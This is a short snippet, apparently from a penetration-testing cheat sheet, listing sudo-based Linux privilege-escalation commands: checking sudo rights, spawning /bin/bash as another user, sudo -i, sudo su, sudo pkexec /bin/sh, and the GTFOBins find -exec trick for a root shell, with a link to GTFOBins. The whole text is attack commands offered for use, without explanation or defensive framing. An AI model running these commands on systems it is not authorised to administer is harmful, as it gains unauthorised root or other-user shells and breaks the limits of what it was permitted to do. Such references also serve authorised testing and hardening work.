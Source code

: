 ```
sudo -l
```

```
sudo -u $username /bin/bash
```

```
sudo -i
```

```
sudo su
```

```
sudo pkexec /bin/sh
```

```
sudo -u $username /usr/bin/find . -exec /bin/bash \; -quit
```

https://gtfobins.github.io/gtfobins/find/#sudo

